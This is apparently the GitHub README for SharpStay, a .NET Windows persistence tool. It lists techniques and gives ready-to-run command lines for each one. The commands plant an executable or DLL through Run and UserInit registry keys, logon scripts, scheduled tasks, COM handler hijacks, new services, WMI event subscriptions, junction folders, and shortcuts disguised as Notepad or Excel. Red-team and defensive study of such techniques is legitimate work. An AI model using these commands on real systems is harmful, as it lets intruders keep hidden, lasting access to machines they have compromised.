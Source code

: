 
### SharpStay - .NET Persistence 


#### Building
To compile open Visual Studio project and compile for release.

#### Options

  * Elevated Registry Keys
  * Elevated UserInit Registry Key
  * Elevated Scheduled Task
  * Elevated Create Service
  * Elevated WMI Event Subscription


  * Non-Elevated InitMprLogonScript Registry Key
  * Non-Elevated Scheduled Task COM Handler Hijack
  * Non-Elevated Junction Folder


  * Misc Add Scheduled Task Action
  * Misc Startup Directory
  * Misc New LNK
  * Misc Backdoor LNK
  * Misc Task Names
  * Misc List Scheduled Tasks
  * Misc List Running Services
  * Misc Get Scheduled Task COM Handlers

```
Sharpstay.exe action=ElevatedRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserInitMprLogonScriptKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ElevatedUserInitKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ScheduledTask 
```

```
Sharpstay.exe action=ScheduledTaskAction taskname=TestTask command="C:\Windows\temp\fun.exe" folder="\\" actionid=ExecAction
```

```
Sharpstay.exe action=SchTaskCOMHijack clsid={a47af52a-27f9-4426-bd2b-727050712db1} dllpath="C:\windows\temp\fun.dll"
```

```
Sharpstay.exe action=CreateService servicename=TestService command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=WMIEventSub command="C:\Windows\temp\fun.exe" eventname=Debugger attime=startup 
```

```
Sharpstay.exe action=JunctionFolder dllpath="C:\windows\temp\fun.dll guid={a47af52a-27f9-4426-bd2b-727050712db1}
```

```
Sharpstay.exe action=NewLNK filepath="C:\users\admin\desktop" lnkname="Notepad.lnk" lnktarget="C:\Windows\temp\file.exe" lnkicon="C:\Windows\system32\notepad.exe"
```

```
Sharpstay.exe action=BackdoorLNK command="C:\Windows\temp\fun.exe" lnkpath="C:\users\user\desktop\Excel.lnk"
```

```
Sharpstay.exe action=ListTaskNames
```

```
Sharpstay.exe action=ListScheduledTasks
```

```
Sharpstay.exe action=ListRunningServices
```

```
Sharpstay.exe action=GetScheduledTaskCOMHandler
```

`cleanup=true` is an option for each persistence type.

Part of [StayKit](https://github.com/0xthirteen/StayKit)
